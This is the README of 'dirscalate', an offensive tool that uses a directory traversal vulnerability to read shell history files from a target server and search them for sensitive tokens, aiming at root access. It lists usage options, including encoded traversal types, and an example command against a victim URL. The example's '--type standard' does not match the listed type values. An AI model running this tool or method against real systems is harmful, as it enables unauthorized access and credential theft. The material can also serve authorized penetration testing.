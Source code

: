 dirscalate
==========

Dirscalate helps escalate a directory traversal vulnerability to root access (hopefully)

Requirements
============
Mechanize

Usage
=====

dirscalate.py [-h] --link LINK [--histfile HISTFILE] 
                       [--tokens TOKENS] [--logfile LOGFILE] 
                       [--depth DEPTH] [--type TYPE]

  Exploit a directory traversal vulnerability to find sensitive information

  optional arguments:
  
    -h, --help           show this help message and exit
    --link LINK          the full URL to exploit, replace value in vulnerable
                         parameter with #vulnerability# marker (must include
                         http(s):// (default: None)
    --histfile HISTFILE  the list of history files to search (default:
                         histfile.txt)
    --tokens TOKENS      the list of strings to search for in the history 
                         files (default: tokens.txt)
    --logfile LOGFILE    the logfile to write matches to (default:
                         dirscalate.txt)
    --depth DEPTH        the length of the traversal attempt (default: 10)
    --type TYPE          1 (../), 2 (URL encoded), or 3 (double encoded)
                         (default: 1)

  Example: dirscalate.py --link 
    https://www.victim.com/login.php?test=1&blah=#vulnerability#&id=2 
    --histfile histfile.txt --tokens tokens.txt --depth 10 --type standard
